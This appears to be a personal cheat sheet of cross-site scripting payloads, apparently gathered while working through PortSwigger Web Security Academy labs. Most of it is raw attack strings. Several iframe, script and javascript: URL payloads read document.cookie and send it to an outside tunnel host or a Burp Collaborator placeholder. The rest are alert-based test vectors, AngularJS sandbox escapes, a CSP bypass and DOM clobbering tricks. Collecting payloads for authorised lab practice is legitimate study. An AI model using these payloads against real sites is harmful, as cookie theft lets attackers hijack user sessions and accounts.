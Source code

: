 
|||||||||||||||||||||||||||||||||||||||||||||||||||||
Cheat-sheet link : https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#onafterscriptexecute
|||||||||||||||||||||||||||||||||||||||||||||||||||||
<iframe src="javascript:var i=' ' + document.cookie; alert(i); fetch('http://pip3lee101-64604.portmap.host:64604/?sam')">


for cookia stelling
<iframe src="javascript:let i=new Image;i.src='http://pip3lee101-64604.portmap.host:64604/?lee101'+document.cookie; console.log(document.cookie);" >

<iframe src="javascript:fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'GET',
mode: 'no-cors',
body:document.cookie
}); console.log(document.cookie);" >


<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

for cookie stelling HREF
javascript:fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});


|||||||||||||||||||||||||||||||||||||||||||||||||||||
HTML HTML HTML entities test ===>
&#x6c;&#x65;&#x65;&#x31;&#x30;&#x31;
|||||||||||||||||||||||||||||||||||||||||||||


for seperate html page
<iframe src="https://0a97007b03b5c853c0631f0600af003c.web-security-academy.net/" onload="this.src+='<img src=x onerror=print()>'"></iframe>


for anchor HREF inputs this payload to store <a src="javascript:alert(1)">LIKE website</a> ++++===>
javascript:alert(1)
http://foo?&apos;-alert(1)-&apos;


||||||||||||||||||||||||||||||||||||||||||||||||||||||
for testing =====>
<iframe src="javascript:alert('xss');" >
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
"><svg onload=alert(document.cookie);>
<svg onload=alert(document.cookie);>
"onmouseover="alert('xss')
'-alert(1)-'
{{$on.constructor('alert(1)')()}}
\"-alert(1)}//
\'-alert(1)//
${alert(1)}
<><img src=1 onerror=alert(1)>
</script><script>alert(1)</script>
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>


||||||||||||||||||||||||||||||||||||||||||||||||||||||
special url and id payloads =========>
"></select><img%20src=1%20onerror=alert(1)>
<xss id=x onfocus=alert(document.cookie) tabindex=1>#x
5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
/?'accesskey='x'onclick='alert(1)
"><svg><animatetransform onbegin=alert(1)>
<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline'
1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x';